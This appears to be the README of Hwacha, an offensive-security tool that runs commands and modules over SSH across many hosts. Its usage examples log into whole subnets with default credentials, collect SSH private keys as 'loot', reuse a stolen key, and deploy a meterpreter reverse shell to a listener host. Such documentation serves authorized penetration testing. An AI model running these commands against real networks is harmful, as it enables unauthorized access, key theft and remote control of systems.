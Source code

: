 # Hwacha
![alt tag](https://github.com/n00py/hwacha/blob/master/hwacha.png)

    $python hwacha.py 
    &&&&     &&         &&        &&
&&&&&&&&&&&& &&         &&        &&      Created by Esteban Rodriguez   /~~\_
   &&&&&&    &&     &&&&&&&&&&    &&	  Web: https://www.n00py.io     /| '` *\
  &&    &&   &&&&&      &&        &&&&&        Twitter: @n00py1         \|  ___/
 &&      &&  &&&&&    &&  &&      &&&&&   _   _                     _
  &&    &&   &&      &&    &&     &&     | | | |                   | |
   &&&&&&    &&    &&&      &&&   &&     | |_| |__      ____ _  ___| |__   __ _
     &&      &&   &&          &&  &&     |  _  |\ \ /\ / / _` |/ __| '_ \ / _` |
&&&&&&&&&&&&&&&                   &&     | | | | \ V  V / (_| | (__| | | | (_| |
             &&                   &&     \_| |_/  \_/\_/ \__,_|\___|_| |_|\__,_| 
To run commands, use -x [COMMAND]
to run modules, use -m [MODULE]
to specify module options, use -o [ARG=ARG ARG=ARG]
to see all available modules, use -L
Example usage:
python hwacha.py -t 192.168.1.1/24 -u admin  -p password
python hwacha.py -t 192.168.1.100-200 -u admin  -p password -m keys
python hwacha.py -t 192.168.1.100-200 -u admin  -i loot/keys/192.168.1.101/id_rsa -x id
python hwacha.py -t 192.168.1.123 -u admin  -p password -m meterpreter -o "LPORT=4444 LHOST=192.168.1.150 TYPE=64"
